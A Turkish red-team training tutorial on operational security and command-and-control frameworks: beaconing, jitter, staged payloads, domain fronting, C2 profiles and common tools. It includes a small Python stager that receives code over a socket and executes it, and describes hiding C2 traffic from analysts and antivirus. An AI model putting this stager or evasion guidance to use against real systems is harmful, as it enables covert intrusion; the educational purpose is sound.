Kırmızı ekip üyesinin kritik bilgilerin korunmaya değer olduğunu düşündüğü şey, operasyona ve kullanılan varlıklara veya araçlara bağlıdır. Bu ortamda kritik bilgiler, kırmızı takımın niyetlerini, yeteneklerini, faaliyetlerini ve sınırlamalarını içerir ancak bunlarla sınırlı değildir. Kritik bilgiler, mavi takım tarafından elde edildiğinde kırmızı takımın misyonunu engelleyecek veya kötüleştirecek her türlü bilgiyi içerir.

Kritik bilgileri belirlemek için, kırmızı takımın düşmanca bir yaklaşım kullanması ve düşmanın, yani mavi takımın, bu durumda, görev hakkında hangi bilgileri bilmek isteyeceğini kendilerine sorması gerekir. Eğer elde edilirse düşman, kırmızı takımın ataklarını engelleyecek sağlam bir pozisyona sahip olacak. Bu nedenle, kritik bilgilerin mutlaka hassas bilgiler olması gerekmez; ancak bu, bir düşmana sızdırılması durumunda planlarınızı tehlikeye atabilecek herhangi bir bilgidir. Aşağıda bazı örnekler verilmiştir:

+ Ekibinizin öğrendiği müşteri bilgileri. Ekibinizin keşfettiği çalışan adları, roller ve altyapı gibi müşteriye özel bilgilerin paylaşılması kabul edilemez. Bu tür bilgilerin paylaşılması, operasyonun bütünlüğünü tehlikeye atabileceğinden, bilinmesi gerekenler bazında tutulmalıdır. En Az Ayrıcalık İlkesi (The Principle of Least Privilege) (PoLP), herhangi bir varlığın (kullanıcı veya süreç) yalnızca görevini yerine getirmek için gerekli bilgilere erişebilmesi gerektiğini belirtir. Kırmızı Takım'ın attığı her adımda PoLP uygulanmalıdır.
+ Kimlikler, faaliyetler, planlar, yetenekler ve sınırlamalar gibi kırmızı ekip bilgileri. Düşman, saldırılarınızla yüzleşmeye daha iyi hazırlanmak için bu bilgileri kullanabilir.
+ Ekibinizin bir saldırıyı taklit etmek için kullandığı Taktikler, Teknikler ve Prosedürler (TTP).
+ Ekibiniz tarafından kullanılan işletim sistemi, bulut barındırma sağlayıcısı veya C2 framework'ü. Diyelim ki takımınız penetrasyon testi için Pentoo kullanıyor ve defans oyuncusu da bunu biliyor. Sonuç olarak, işletim sisteminin Pentoo olduğunu gösteren günlükleri takip edebilirler. Hedefe bağlı olarak diğer saldırganların da saldırılarını başlatmak için Pentoo'yu kullanma olasılığı vardır; ancak, gerekmedikçe işletim sisteminizi açığa çıkarmanın hiçbir nedeni yoktur.
+ Kırmızı ekibinizin kullanacağı genel IP adresleri. Mavi takım bu tür bilgilere erişim kazanırsa, IP adreslerinize gelen ve giden tüm trafiği engelleyerek saldırıyı hızlı bir şekilde azaltabilir ve ne olduğunu anlamanızı size bırakabilir.
+ Ekibinizin kaydettirdiği domainler. Phishing gibi saldırılarda domainler önemli rol oynuyor. Benzer şekilde, eğer mavi takım saldırılarınızı başlatmak için kullanacağınız domainleri bulursa, saldırınızı etkisiz hale getirmek için kötü amaçlı domainlerinizi basitçe engelleyebilir veya çökertebilirler.
+ Düşman emülasyonu için phishing web siteleri gibi barındırılan web siteleri.

### Tehditlerin Analiz Edilmesi

Kritik bilgileri belirledikten sonra tehditleri analiz etmemiz gerekiyor. Tehdit analizi, potansiyel düşmanların, niyetlerinin ve yeteneklerinin belirlenmesi anlamına gelir. ABD Savunma Bakanlığı (US Department of Defense) (DoD) Operasyon Güvenliği (OPSEC) Program El Kitabı'ndan uyarlanan tehdit analizi, aşağıdaki sorulara yanıt vermeyi amaçlamaktadır:

+ Düşman kim?
+ Rakibin hedefleri neler?
+ Düşman hangi taktikleri, teknikleri ve prosedürleri kullanıyor?
+ Varsa, düşman hangi kritik bilgileri elde etti?

Kırmızı takımın görevi gerçek bir saldırıyı taklit ederek mavi takımın varsa eksikliklerini keşfetmesini ve gelen tehditlerle yüzleşmeye daha hazırlıklı olmasını sağlamaktır. Mavi takımın temel amacı kurumun ağ ve sistemlerinin güvenliğini sağlamaktır. Mavi takımın niyeti belli; kırmızı takımı kendi ağlarının dışında tutmak istiyorlar. Sonuç olarak, kırmızı takımın görevi göz önüne alındığında, her takımın birbiriyle çelişen hedefleri olduğundan mavi takım bizim düşmanımız olarak görülüyor. Mavi takımın yeteneklerinin başlangıçta her zaman bilinmeyebileceğini unutmamalıyız.

Kötü niyetli üçüncü taraf oyuncuların farklı niyetleri ve yetenekleri olabilir ve bunun sonucunda tehdidi duraklatabilirler. Bu taraf, sistemleri rastgele tarayan ve yama yapılmamış, istismar edilebilir bir sunucu gibi düşük maliyetli meyveleri arayan mütevazı yeteneklere sahip biri olabilir veya şirketinizi veya müşteri sistemlerinizi hedef alan yetenekli bir düşman olabilir. Sonuç olarak, bu üçüncü tarafın niyetleri ve yetenekleri onları da düşman haline getirebilir.

**tehdit = düşman + niyet + yetenek**

Başka bir deyişle, niyeti veya yeteneği olmayan bir düşman, amaçlarımız açısından bir tehdit oluşturmaz.

### Zaafiyetlerin Analiz Edilmesi

Kritik bilgileri belirleyip tehditleri analiz ettikten sonra üçüncü adımla başlayabiliriz: güvenlik açıklarını analiz etme. Bu, siber güvenlikle ilgili güvenlik açıklarıyla karıştırılmamalıdır. Bir saldırganın kritik bilgileri elde etmesi, bulguları analiz etmesi ve planlarınızı etkileyecek şekilde hareket etmesi durumunda OPSEC güvenlik açığı ortaya çıkar.

Kırmızı ekiple ilgili bir OPSEC güvenlik açığını daha iyi anlamak için aşağıdaki senaryoyu ele alacağız. Hedef subnetteki canlı ana bilgisayarları keşfetmek ve canlı ana bilgisayarlarda açık portları bulmak için Nmap'i kullandık. Ayrıca, kurbanı barındırdığımız bir phishing web sayfasına yönlendiren çeşitli phishing e-postaları gönderdik. Ayrıca, belirli yazılım açıklarından yararlanmaya çalışmak için Metasploit framework kullanıyoruz. Bunlar üç ayrı faaliyettir; ancak bu farklı etkinlikleri gerçekleştirmek için aynı IP adreslerini kullanırsak bu durum OPSEC güvenlik açığına yol açacaktır. Herhangi bir düşmanca/kötü niyetli etkinlik tespit edildiğinde mavi ekibin, kaynak IP adreslerini geçici veya kalıcı olarak engellemek gibi önlemler alması beklenir. Sonuç olarak, bu IP adresini kullanan diğer tüm etkinliklerin başarısız olması için bir kaynak IP adresinin engellenmesi gerekir. Başka bir deyişle, bu, phishing sunucusu için kullanılan hedef IP adresine ve Nmap ve Metasploit framework tarafından kullanılan kaynak IP adresine erişimi engelleyecektir.

OPSEC güvenlik açığının bir başka örneği, phishing kurbanlarından alınan verileri depolamak için kullanılan güvenli olmayan bir veritabanıdır. Veritabanının güvenliği uygun şekilde sağlanmazsa, kötü niyetli bir üçüncü tarafın işlemi tehlikeye atmasına yol açabilir ve verilerin dışarı sızmasına ve müşterinizin ağına karşı bir saldırıda kullanılmasına neden olabilir. Sonuç olarak, müşterinizin ağının güvenliğini sağlamasına yardımcı olmak yerine, oturum açma adlarının ve parolalarının açığa çıkmasına yardımcı olursunuz.

Gevşek OPSEC aynı zamanda daha az karmaşık güvenlik açıklarına da yol açabilir. Örneğin, kırmızı ekip üyelerinizden birinin sosyal medyada müşterinizin adını açığa vuran bir paylaşım yaptığı bir durumu düşünün. Mavi takımın bu tür bilgileri izlemesi, ekibiniz ve beklenen sızma girişimlerine karşı daha iyi hazırlanmak için yaklaşımlarınız hakkında daha fazla bilgi edinmelerini tetikleyecektir.

### Riskleri Belirlemek

Güvenlik açıklarını analiz etmeyi bitirdik ve şimdi dördüncü adıma geçebiliriz: risk değerlendirmesi yapmak. NIST, risk değerlendirmesini "Bir bilgi sisteminin işleyişinden kaynaklanan, kurumsal operasyonlara (misyon, işlevler, imaj, itibar dahil), kurumsal varlıklara, bireylere, diğer kuruluşlara ve Ulusa yönelik riskleri belirleme süreci" olarak tanımlıyor. OPSEC'de risk değerlendirmesi, bir olayın gerçekleşme olasılığının yanı sıra o olayın beklenen maliyetinin de öğrenilmesini gerektirir. Sonuç olarak bu, düşmanın güvenlik açıklarından yararlanma yeteneğinin değerlendirilmesini içerir.

Risk düzeyi belirlendikten sonra, bu riski azaltmak için karşı önlemler düşünülebilir. Aşağıdaki üç faktörü dikkate almamız gerekiyor:

+ Riski azaltmada karşı önlemin etkinliği
+ İstismar edilen güvenlik açığının etkisine kıyasla karşı önlemin maliyeti.
+ Karşı önlemin düşmana bilgi verme olasılığı

Önceki bölümdeki iki örneği tekrar gözden geçirelim. İlk örnekte, Metasploit framework kullanarak ağı Nmap ile taramanın ve phishing sayfalarını aynı genel IP adresini kullanarak barındırmanın güvenlik açığını değerlendirdik. Bunun bir güvenlik açığı olduğunu analiz ettik çünkü düşmanın sadece bir aktiviteyi tespit ederek üç aktivitemizi engellemesini kolaylaştırıyor. Şimdi bu riski değerlendirelim. Bu güvenlik açığıyla ilgili riski değerlendirmek için bu faaliyetlerden bir veya daha fazlasının tespit edilme olasılığını öğrenmemiz gerekir. Düşmanın yetenekleri hakkında bazı bilgiler edinmeden buna cevap veremeyiz. İstemcinin bir Güvenlik Bilgileri ve Olay Yönetiminin (Security Information and Event Management) (SIEM) mevcut olduğu durumu ele alalım. SIEM, ağ üzerindeki farklı kaynaklardan gelen güvenlikle ilgili olayların gerçek zamanlı olarak izlenmesine ve analiz edilmesine olanak tanıyan bir sistemdir. Bir SIEM'in şüpheli etkinliği tespit etmeyi ve üç olayı birbirine bağlamayı makul ölçüde basitleştirmesini bekleyebiliriz. Sonuç olarak ilgili riskin yüksek olduğunu düşünüyoruz. Öte yandan, düşmanın güvenlik olaylarını tespit etmek için minimum kaynağa sahip olduğunu bilirsek, bu güvenlik açığına ilişkin riski düşük olarak değerlendirebiliriz.

Phishing sayfasından alınan verileri depolamak için kullanılan güvenli olmayan bir veritabanının ikinci örneğini ele alalım. Honeypot'ları kullanan çeşitli araştırma gruplarından toplanan verilere dayanarak, çeşitli kötü amaçlı botların İnternet'teki rastgele IP adreslerini aktif olarak hedeflemesini bekleyebiliriz. Bu nedenle güvenliği zayıf olan bir sistemin keşfedilip kötüye kullanılması an meselesidir.

### Uygun Karşı Önlemleri Uygulamak

Son adım karşı önlemlerin uygulanmasıdır. ABD Savunma Bakanlığı (DoD) Operasyon Güvenliği (OPSEC) Program Kılavuzu'nda şöyle belirtilmektedir: “Karşı önlemler, bir düşmanın kritik bilgileri tespit etmesini önlemek, kritik bilgi veya göstergeler için alternatif bir yorum sağlamak (aldatma) veya düşmanın bilgi toplama sistemini engellemek için tasarlanmıştır. ”

Güvenlik Açığı Analizi bölümünde sunduğumuz iki örneği tekrar gözden geçirelim. İlk örnekte, Nmap çalıştırmanın, Metasploit framework kullanmanın ve phishing sayfalarını aynı genel IP adresini kullanarak barındırmanın güvenlik açığını değerlendirdik. Bunun karşı önlemi barizdir; her etkinlik için farklı bir IP adresi kullanmak. Böylece bir aktivitenin tespit edilmesi durumunda genel IP adresinin engellenmesini, diğer aktivitelerin etkilenmeden devam etmesini sağlayabilirsiniz.

İkinci örnekte, phishing sayfasından alınan verileri depolamak için kullanılan güvenli olmayan bir veritabanının güvenlik açığını değerlendirdik. Risk değerlendirmesi açısından bakıldığında, potansiyel olarak rastgele kolay hedefler arayan kötü niyetli üçüncü şahıslar nedeniyle bunun yüksek risk olduğunu düşündük. Bu durumda karşı önlem, veri tabanının, verilere yetkili personel dışında erişilemeyecek şekilde yeterince güvenliğinin sağlanması olacaktır.

## C2(Command & Control)'e Giriş

C2 frameworkleri çeşitli bileşenlerini anlamaya çalışırken korkutucu olabilir. Ancak öyle olmak zorunda değiller. En temel düzeyde bir C2 framework'ün ne olduğunu daha iyi anlamak için, birçok reverse shell'in aynı anda callback yapmasını (C2 agents/clients) yönetebilen bir Netcat dinleyicisini (C2 sunucusu) düşünün. Bu bir sunucu ama reverse sheller için. Netcat'in aksine neredeyse tüm C2 frameworkleri özel bir payload oluşturucu gerektirir. Bu genellikle framework'ün kendisinde yerleşik bir özelliktir. Örneğin Metasploit, kendi payload oluşturucusu MSFVenom'a sahip bir C2 framework'üdür.



Peki C2 frameworklerini normal bir Netcat dinleyicisinden daha iyi kılan şey tam olarak nedir? Görünüşe göre sadece oturum yönetiminin Netcat'e uygulanması. Bu doğru olsa da, C2 frameworkleri “Sömürü Sonrası” (Post-Exploitation) özellikleriyle parlıyor.

### C2 Server

C2 (Komuta Kontrol) framework'ünü anlamak için öncelikle bir C2 sunucusunun çeşitli bileşenlerini anlayarak başlamalıyız. En önemli bileşenle başlayalım: C2 Sunucusunun kendisi. C2 Sunucusu, agents/clientlerin devamlı geri arayabileceği (callback) bir merkez görevi görür. Client'ler periyodik olarak C2 sunucusuna ulaşacak ve operatörün komutlarını bekleyecektir.



### C2 Clients ve Payloadlar

Client, C2 framework'ü tarafından oluşturulan ve C2 sunucusundaki bir dinleyiciye geri çağrı(callback) yapan bir programdır. Çoğu zaman bu client, standart bir reverse shell'e kıyasla özel işlevsellik sağlar. Çoğu C2 framework'ü, C2 Operatörünün hayatını kolaylaştırmak için basit komutlar uygular. Bunun bazı örnekleri, sisteme bir dosya İndirmek veya Yüklemek için kullanılan basit bir komut olabilir. Client'lerin, C2 clientlerinin bir C2 Sunucusu üzerindeki bir Dinleyiciye ne sıklıkta işaret vereceği zamanlamasına ve çok daha fazlasına ilişkin ayarlamalar ile son derece yapılandırılabilir olabileceğini bilmek önemlidir.

#### Dinleyiciler

En temel düzeyde dinleyici, C2 sunucusunda çalışan ve belirli bir bağlantı noktası veya protokol üzerinden callback bekleyen bir uygulamadır. Bunun bazı örnekleri DNS, HTTP ve/veya HTTPS'dir.

#### Beacon'lar

Beacon, bir C2 clientinin C2 Sunucusu üzerinde çalışan dinleyiciye callback işlemidir.

### Client Callback'lerini Karıştırmak

#### Uyku Zamanlayıcıları

Bazı güvenlik analistlerinin, antivirüslerin ve yeni nesil güvenlik duvarlarının Komuta ve Kontrol trafiğini tanımlamaya çalışırken aradıkları önemli şeylerden biri beaconlar ve bir cihazın C2 sunucusuna beacon işlem hızıdır. Diyelim ki bir güvenlik duvarı şuna benzeyen trafiği gözlemledi

    TCP/443 - Oturum Süresi 3 sn, 55 paket gönderildi, 10:00:05.000

    TCP/443 - Oturum Süresi 2 sn, 33 paket gönderildi, 10:00:10.000

    TCP/443 - Oturum Süresi 3 sn, 55 paket gönderildi, 10:00:15.000

    TCP/443 - Oturum Süresi 1 sn, 33 paket gönderildi, 10:00:20.000

    TCP/443 - Oturum Süresi 3 sn, 55 paket gönderildi, 10:00:25.000

Bir model oluşmaya başlıyor. Client her 5 saniyede bir beacon oluşturuyor; bu, 5 saniyelik bir uyku zamanlayıcısına sahip olduğu anlamına gelir.

#### Jitter

Jitter uyku zamanlayıcısını alır ve ona biraz değişiklik katar; C2 beacon'u artık ortalama bir kullanıcıya daha yakın aktivite gösterebilecek tuhaf bir model sergileyebilir:

    TCP/443 - Oturum Süresi 3 sn, 55 paket gönderildi, 10:00:03.580

    TCP/443 - Oturum Süresi 2 sn, 33 paket gönderildi, 10:00:13.213

    TCP/443 - Oturum Süresi 3 sn, 55 paket gönderildi, 10:00:14.912

    TCP/443 - Oturum Süresi 1 sn, 33 paket gönderildi, 10:00:23.444

    TCP/443 - Oturum Süresi 3 sn, 55 paket gönderildi, 10:00:27.182

İşaretleme artık yarı düzensiz bir düzende ayarlanmıştır ve bu da normal kullanıcı trafiği arasında tespit edilmesini biraz daha zorlaştırmaktadır. Daha gelişmiş C2 framework'lerinde, "Dosya" jitter'ı veya iletilen dosyalara önemsiz veriler ekleyerek bunların gerçekte olduğundan daha büyük görünmesini sağlamak gibi diğer çeşitli parametreleri değiştirmek mümkün olabilir.

Jitter için örnek Python3 kodu şöyle görünebilir:

    import random

    sleep = 60

    jitter = random.randint(-30,30)

    sleep = sleep + jitter

Bunun temel bir örnek olduğunu belirtmek önemlidir, ancak çok daha fazla matematik ağırlıklı olabilir, üst ve alt sınırları belirleyebilir, son uykunun yüzdelerini alabilir ve oradan yola çıkabilir.

### Payload Türleri

Normal bir reverse shell gibi, C2 frameworkünüzde kullanabileceğiniz iki temel payload vardır; Aşamalı(Staged) ve Aşamasız(Stageless) yükler.

#### Stageless Payloadlar

Aşamasız payloadlar bu ikisinden en basit olanıdır; C2 client kodun tamamını içerirler ve C2 sunucusunu geri arayacak ve hemen beacon vermeye başlayacaklardır. Aşamasız payloadların nasıl çalıştığını daha iyi anlamak için aşağıdaki şemaya başvurabilirsiniz.



Aşamasız bir payload ile C2 beacon adımları aşağıdaki gibidir:

1. Kurban client çalıştırılabilirini indirir ve çalıştırır
2. C2 Sunucusuna beacon başlanır

#### Staged Payloadlar

Aşamalı payloadlar, C2 client kodunun geri kalan kısımlarını indirmek için C2 sunucusuna geri çağrı yapılmasını gerektirir. Bu genellikle "Dropper(Damlalık)" olarak anılır çünkü aşamalı payloadın ikinci aşamasını indirmek için kurbanın makinesine "Bırakılır". Bu, aşamasız payloadlara göre tercih edilen bir yöntemdir çünkü C2 client kodunun geri kalan kısmını C2 sunucusundan almak için az miktarda kodun yazılması gerekir. Ayrıca, Anti-Virüs programlarını atlamak için kodu karmaşıklaştırmayı da kolaylaştırır.



Aşamalı payload ile C2 beacon adımları aşağıdaki gibidir:

1. Kurban Dropper'ı indirir ve çalıştırır
2. Dropper, Aşama 2 için C2 Sunucusuna callback yapar
3. C2 Sunucusu Aşama 2'yi kurban bilgisayara gönderir
4. Aşama 2, kurbanın belleğine yüklenir
5. C2 Beaconing Başlatılır ve Kırmızı Takım Üyesi/Tehdit Aktörleri, C2 Sunucusu üzerinde kurbanla iletişim kurabilir.

Örnek bir python kodu :

    import socket
    import subprocess

    clientSocket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    clientSocket.connect(("127.0.0.1", 4444))

    stage2code = clientSocket.recv(1024).decode()

    exec(stage2code)

### Payload Formatları

Bildiğiniz gibi Windows PE dosyaları (Yürütülebilir dosyalar) bir sistemde kod çalıştırmanın tek yolu değildir. Bazı C2 frameworkleri diğer çeşitli formatlardaki payloadları destekler, örneğin:

+ PowerShell Komut Dosyaları

        C# Kodu içerebilen ve Add-Type komutuyla derlenip çalıştırılabilen
+ HTA Dosyaları
+ JScript Dosyaları
+ Visual Basic Uygulaması/Komut Dosyaları
+ Microsoft Office Belgeleri

ve daha fazlası.

### Payload Modülleri

Modüller herhangi bir C2 framework'ünün temel bileşenidir; clientleri ve C2 sunucusunu daha esnek hale getirme yeteneğini eklerler. C2 framework'üne bağlı olarak komut dosyalarının farklı dillerde yazılması gerekir. Cobalt Strike, “Saldırgan Script Dili(Aggressor Scripting Language)” ile yazılmış “Saldırgan Scriptleri”ne sahiptir. PowerShell Empire'ın birden fazla dil desteği vardır, Metasploit'in Modülleri Ruby'de yazılmıştır ve diğer pek çok araç başka birçok dilde yazılmıştır.

#### Sömürü Sonrası(Post-Exploitation) Modülleri

Sömürü soonrası modülleri, ilk etkileşim sonrası herhangi bir şeyle ilgilenen modüllerdir; bu, yatay hareket yollarını bulmak için SharpHound.ps1'i çalıştırmak kadar basit olabilir veya LSASS'ı dump ve kimlik bilgilerini bellekte ayrıştırmak kadar karmaşık olabilir.

#### Döner(Pivoting) Modüller

C2 framework'ünün son ana bileşenlerinden biri, C2 framework içindeki kısıtlı ağ bölümlerine erişimi kolaylaştıran döner modüllerdir. Bir sistemde Yönetici Erişiminiz varsa, bir makinenin SMB protokolü aracılığıyla proxy görevi görmesini sağlayan bir "SMB Beacon" açabilirsiniz. Bu, kısıtlı ağ kesimindeki makinelerin C2 sunucunuzla iletişim kurmasına olanak tanıyabilir.



Yukarıdaki şema, kısıtlı bir ağ segmentindeki ana bilgisayarların C2 Sunucusunu nasıl geri aradığını gösterir:

1. Kurbanlar, kısıtlanmamış bir ağ bölümündeki başka bir Kurban üzerindeki SMB adlı kanala geri çağrı yapıyor.
2. Kısıtlanmamış ağ kesimindeki kurban, standart bir beacon ile C2 Sunucusuna geri çağrı yapar.
3. C2 Sunucusu daha sonra komutları kısıtlamasız ağ bölümündeki Kurban'a geri gönderir.
4. Kısıtlanmamış ağ bölümündeki kurban daha sonra C2 talimatlarını kısıtlı bölümdeki ana bilgisayarlara iletir.

### Domain Önleme(Fronting)

Domain Fronting, bilinen, iyi bir host'u (örneğin) Cloudflare kullanır. Cloudflare, bant genişliğinden tasarruf etmek için HTTP bağlantı ayrıntılarına ilişkin gelişmiş ölçümlerin yanı sıra HTTP bağlantı isteklerini önbelleğe alan bir işletme yürütmektedir. Kırmızı takımcılar, bir client'in veya sunucunun bilinen, güvenilir bir IP Adresiyle iletişim kurduğunu göstermek için bunu kötüye kullanabilir. Coğrafi konum sonuçları, en yakın Cloudflare sunucusunun nerede olduğunu gösterecek ve IP Adresi, Cloudflare'in sahibi olarak gösterilecektir.



Yukarıdaki şemada Domain Fronting'in nasıl çalıştığı gösterilmektedir:

1. C2 Operatörü, Cloudflare aracılığıyla tüm istekleri proxy olarak yönlendiren bir alana sahiptir.
2. Kurban C2 Domainine beacon gönderir.
3. Cloudflare isteğin proxy'sini oluşturur, ardından Host header'a bakar ve trafiği doğru sunucuya aktarır.
4. C2 Sunucusu daha sonra Cloudflare'e C2 Komutlarıyla yanıt verir.
5. Kurban daha sonra Cloudflare'den komutu alır.

### C2 Profilleri

Bir sonraki teknik, "NGINX Ters(Reverse) Proxy", "Apache Mod_Proxy/Mod_Rewrite", "Biçimlendirilebilir(Malleable) HTTP C2 Profilleri" ve daha pek çok farklı ürün tarafından çeşitli adlarla anılır. Ancak hepsi aşağı yukarı aynıdır. Proxy özelliklerinin tamamı aşağı yukarı kullanıcının, gelen HTTP isteğinin belirli öğelerini kontrol etmesine olanak tanır. Diyelim ki gelen bir bağlantı isteğinin "X-C2-Server" başlığı var; kullanımınıza sunulan spesifik teknolojiyi (Reverse Proxy, Mod_Proxy/Rewrite, Malleable C2 Profile, vb.) kullanarak bu başlığı açıkça çıkarabilir ve C2 sunucunuzun C2 tabanlı yanıtlarla yanıt vermesini sağlayabiliriz. Oysa normal bir kullanıcı HTTP Sunucusunu sorguladığında genel bir web sayfası görebilir. Bunların hepsi yapılandırmanıza bağlıdır.



Yukarıdaki şemada C2 profillerinin nasıl çalıştığı gösterilmektedir:

1. Kurban, HTTP isteğinde özel bir başlık ile C2 Sunucusuna beacon yaparken, SOC Analisti normal bir HTTP İsteğine sahiptir
2. İstekler Cloudflare aracılığıyla proxy olarak gerçekleştirilir
3. C2 Sunucusu isteği alır ve özel başlığı arar ve ardından C2 Profiline göre nasıl yanıt verileceğini değerlendirir.
4. C2 Sunucusu istemciye yanıt verir ve Analist/Tehdit altındaki cihaza yanıt verir.

HTTPS istekleri şifrelendiğinden belirli başlıkların (ör. X-C2-Server veya Host) çıkarılması imkansız olabilir. C2 Profillerini kullanarak C2 sunucumuzu Güvenlik Analistinin meraklı gözlerinden gizleyebiliriz.

### Yaygın C2 Framworkleri

Yaygın C2 frameworklerini ikiye ayırırız :

+ Bedava
+ Premium/Ücretli

"Neden premium veya ücretli C2 framework kullanayım?" gibi bazı sorular sorabilirsiniz ve bu mükemmel bir sorudur. Premium/Ücretli C2 frameworklerinin Anti-Virüs satıcıları tarafından algılanma olasılığı genellikle daha düşüktür. Bu, tespit edilmesinin imkansız olduğu anlamına gelmiyor; yalnızca açık kaynaklı C2 projelerinin genel olarak iyi anlaşıldığı ve imzaların kolaylıkla geliştirilebildiği anlamına geliyor.

Premium C2 frameworkleri genellikle daha gelişmiş post-exploitation modüllere, pivot özelliklere ve hatta açık kaynaklı yazılım geliştiricilerin bazen yerine getiremeyebileceği özellik isteklerine sahiptir. Örneğin, Cobalt Strike'ın diğer çoğu C2 frameworkünün sunmadığı bir özelliği, bir beacon'dan bir VPN tüneli açma yeteneğidir. Bir Proxy sizin özel durumunuzda iyi çalışmıyorsa bu harika bir özellik olabilir. Ekibiniz için neyin en iyi sonucu vereceğini bulmak için araştırmanızı yapmalısınız.

#### Bedava C2 Frameworkleri

+ Metasploit

Rapid7 tarafından geliştirilen ve sürdürülen Metasploit Framework, halka açık olan ve çoğu penetrasyon testi dağıtımına yüklenen en popüler Sömürü ve Sömürü Sonrası frameworklerden (C2) biridir.



+ Armitage

Armitage, Metasploit framework'ünün bir uzantısıdır; bir Grafik kullanıcı arayüzü ekler, Java ile yazılmıştır ve Cobalt Strike'a inanılmaz derecede benzer. Bunun nedeni her ikisinin de Raphael Mudge tarafından geliştirilmiş olmasıdır. Armitage, tüm hedeflerinizi enumerate ve görselleştirmenin kolay bir yolunu sunar. Cobalt Strike'a çok benzemesinin yanı sıra bazı benzersiz özellikler bile sunuyor. En popülerlerinden biri “Saldırılar” menüsünde bulunabilir; Bu özellik, belirli bir iş istasyonunda çalışan hizmetlere yönelik tüm açıkları çalıştırmayı deneyen Hail Mary saldırısı olarak bilinir. Armitage gerçekten “Hızlı ve Kolay Hackleme”dir.



+ Powershell Empire/Starkiller

Powershell Empire ve Starkiller, orijinal olarak Veris Group'tan Harmjoy, Sixdub ve Enigma0x3 tarafından oluşturulan inanılmaz derecede popüler bir başka C2'dir. Şu anda proje durduruldu ve BC Güvenlik ekibi (Cx01N, Hubbl3 ve _Vinnybod) tarafından ele alındı. Empire, birden fazla platformla uyumlu çeşitli dillerde yazılmış client kodlarına sahiptir ve bu da onu inanılmaz derecede çok yönlü bir C2 haline getirir.



+ Covenant

Şu ana kadar C# ile yazılmış en benzersiz C2 frameworklerinden biridir. Metasploit/Armitage'dan farklı olarak, öncelikle son derece özelleştirilebilir client kodlarına sahip HTTP, HTTPS ve SMB dinleyicileriyle kullanım sonrası ve yanal hareket için kullanılır.



+ Sliver

Sliver by Bishop Fox, gelişmiş, son derece özelleştirilebilir, çok kullanıcılı, CLI tabanlı bir C2 framework'tür. Go ile yazılmıştır, bu da C2 "implantlarının" tersine mühendisliğini inanılmaz derecede zorlaştırır. WireGuard, mTLS, HTTP(S), DNS ve çok daha fazlası gibi C2 iletişimleri için çeşitli protokolleri destekler. Ek olarak, ek işlevsellik için BOF dosyalarını, C2 iletişimlerini maskelemek için DNS Canary Domains'i, HTTPS beaconları için otomatik Let's Encrypt sertifikası oluşturmayı ve çok daha fazlasını destekler.



#### Ücretli C2 Frameworkleri

+ Cobalt Strike

Help Systems tarafından geliştirilen Kobalt Saldırısı (Daha önce Raphael Mudge tarafından yaratılmıştı) tartışmasız Metasploit'in yanındaki en ünlü Komuta ve Kontrol frameworklerinden biridir. Artimage'e çok benzer şekilde Java ile yazılmış ve mümkün olduğunca esnek olacak şekilde tasarlanmıştır.



+ Brute Ratel

Chetan Nayak veya Paranoid Ninja tarafından geliştirilen Brute Ratel, benzersiz bir C2 framework olarak gerçek bir düşman simülasyonu benzeri deneyim sağlayan, "Özelleştirilebilir Komuta ve Kontrol Merkezi" veya "C4" framework'ü olarak pazarlanan bir Komuta ve Kontrol frameworküdür. Framework hakkında daha fazla bilgi için yazar, framework içindeki yeteneklerin çoğunu gösteren bir Video Eğitim Sayfası sağlamıştır.



#### Diğer C2 Frameworkleri

C2 frameworkleri ve bunların yeteneklerinin daha kapsamlı bir listesi için Jorge Orchilles ve Bryson Bort tarafından yürütülen bir proje olan “C2 Matrisi”ne göz atın. Şu anda mevcut olan hemen hemen tüm C2 frameworklerinin çok daha kapsamlı bir listesine sahiptir.

https://howto.thec2matrix.com/